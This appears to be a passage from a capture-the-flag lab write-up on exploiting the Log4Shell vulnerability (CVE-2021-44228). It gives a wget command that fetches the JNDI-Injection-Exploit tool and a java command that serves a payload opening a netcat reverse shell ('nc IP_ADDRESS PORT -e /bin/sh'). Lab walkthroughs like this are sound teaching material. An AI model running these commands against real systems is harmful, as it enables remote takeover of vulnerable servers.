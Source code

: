 
## Task 6

What tool do we use to intercept the traffic, indicating the attack was successful? 

![image.png](image%203.png)

tcpdump

## Task 7

 What port do we need to inspect intercepted traffic for? 

```bash
The protocol use for injection is LDAP, so the port to inspect is the default port of LDAP which is 389.
```

## Task 8

 What port is the MongoDB service running on? 

The mongoDB service is an internal process. We first try to take the 
control of the machine by exploiting the CVE : CVE-2021–44228.

First step is to download a tool that will help us to exploit the previous vulnerabilities.

```
wget https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
```

Once
 the tool is download, use the following code to open an LDAP server on 
your attack box. Note that you have to change the IP address by yours

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "nc IP_ADDRESS PORT -e /bin/sh" -A "IP_ADDRESS"
```

The output will be similar to this

![image.png](image%204.png)
